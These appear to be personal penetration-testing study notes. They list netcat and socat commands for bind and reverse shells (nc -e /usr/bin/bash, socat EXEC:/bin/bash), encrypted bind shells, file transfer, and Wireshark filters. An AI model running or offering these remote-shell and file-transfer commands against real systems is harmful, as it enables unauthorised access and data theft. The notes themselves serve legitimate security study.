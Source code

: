 ```yaml
---
title: Study Notes - 2021/03/14
date: 2021-03-14 19:18:50
tags: [Penetration Testing, Study Notes]
---
```


# Practical Tools
## Netcat
`nc -nvlp 4444 -e /usr/bin/bash`  
`nc -nv 192.168.xxx.xx 4444 -e /usr/bin/bash`  

Transfer file:  
`nc -nvlp 4444 > incoming.txt`  
`nc -nv xxx.xxx.xxx.xxx 4444 < sendfile.txt`

## socat 
`socat - TCP4:10.11.0.22:110`  
`sudo socat TCP4-LISTEN:443 STDOUT`  
`sudo socat TCP4-LISTEN:443,fork file:secret.txt`  
`socat TCP4:localhost:443 file:receive.txt,create `  
### reverse shell
`sudo socat -d -d TCP4-LISTEN:443 STDOUT`  
`socat TCP4:localhost:443 EXEC:/bin/bash`  
-d -d increase verbose level two times  

### encrypted bind shells
create certificate:  
`openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt`  
`cat bind_shell.key bind_shell.crt > bind_shell.pem`  
`sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`  
`socat - OPENSSL:localhost:443,verify=0`  

# Powershell
`Set-ExecutionPolicy Unrestricted`

## file transfer
...
Let me skip this  
## Wireshark  
catpure filter:  
`net 10.11.1.0/24`  
display filter:  
`tcp.port == 21`  
rightclick package->follow tcp stream  
